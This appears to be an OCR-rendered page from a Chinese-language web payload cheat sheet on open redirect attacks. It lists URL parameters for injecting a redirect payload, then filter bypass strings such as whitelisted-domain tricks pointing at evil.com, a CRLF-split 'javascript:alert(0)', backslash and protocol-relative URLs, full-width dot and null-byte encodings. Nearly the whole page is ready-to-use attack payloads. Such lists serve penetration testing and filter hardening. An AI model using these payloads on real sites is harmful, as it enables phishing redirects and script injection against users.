 ```powershell
?return_to={payload}
?return={payload}
?returnTo={payload}
?rurl={payload}
?target={payload}
?url={payload}
?view={payload}
/{payload}
/redirect/{payload}
```

## 过滤器绕过技术

* 使用白名单域名或关键词

    ```powershell
    www.whitelisted.com.evil.com 重定向到 evil.com
    ```

* 使用**CRLF**绕过"javascript"黑名单关键词

    ```powershell
    java%0d%0ascript%0d%0a:alert(0)
    ```

* 使用"`//`"和"`////`"绕过"http"黑名单关键词

    ```powershell
    //google.com
    ////google.com
    ```

* 使用"https:"绕过"`//`"黑名单关键词

    ```powershell
    https:google.com
    ```

* 使用"`\/\/`"绕过"`//`"黑名单关键词

    ```powershell
    \/\/google.com/
    /\/google.com/
    ```

* 使用"`%E3%80%82`"绕过"."黑名单字符

    ```powershell
    /?redir=google。com
    //google%E3%80%82com
    ```

* 使用空字节"`%00`"绕过黑名单过滤器

    ```powershell
    //google%00.com
    ```
